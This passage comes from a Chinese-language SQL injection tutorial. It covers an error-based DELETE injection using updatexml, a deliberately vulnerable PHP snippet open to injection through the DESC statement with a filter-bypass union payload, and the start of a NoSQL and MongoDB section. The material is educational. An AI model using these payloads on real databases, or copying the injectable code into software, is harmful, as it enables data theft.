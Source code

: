 #### [](#1342-delete-%E6%8A%A5%E9%94%99)13.4.2 DELETE 报错

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>delete from wp_user_ where id=21 and updatexml(1,concat(0x7e,database()),1)<br>``` |

### [](#135-descibe-%E6%B3%A8%E5%85%A5)13.5 DESCIBE 注入

> {DESCRIBE | DESC} table\_name \[col\_name | wild\]
> 
> DESCRIBE 提供有关一个表的列信息。col\_name 可以是一个列名或是一个包含 SQL 通配符字符 `%`和 `_` 的字符串。

源代码：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```php<br><?php<br>require("config.php");<br>$table = $_GET['table']?$_GET['table']:"test";<br>$table = Filter($table);<br>mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();<br>$sql = "select 'flag{xxx}' from secret_{$table}";<br>$ret = sql_query($sql);<br>echo $ret[0];<br>?><br>``` |

desc 可以接受两个参数，可以过掉第一个检测。

反引号在 union select 中可以当做空格。

payload:

?table=test\`\` union select database() limit 1 offset 1

## [](#14-nosql-%E6%B3%A8%E5%85%A5)14 NoSQL 注入

### [](#141-%E5%AE%9A%E4%B9%89)14.1 定义

泛指非关系型的数据库。随着互联网 web2.0 网站的兴起，在高可用，高并发压力下，传统数据库已经不能满足需求，用于解决大数据应用和超大规模数据存储的问题。

主要代表：MongDB、Redis、Memcache

以 MongDB 为例，它是一个面向文档存储的数据库，以键值对形式存在

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```json<br>{<br>  name: "Geekby",<br>  age: 26,<br>  status: "A",<br>  groups: ["news", "sports"]<br>}<br>``` |

### [](#142-%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86%E4%B8%80)14.2 注入原理一

1.  基本语法

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108091831.png-water_print](assets/1699411534-2815213944757847118b2d1e4aae45f1.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108091831.png-water_print")
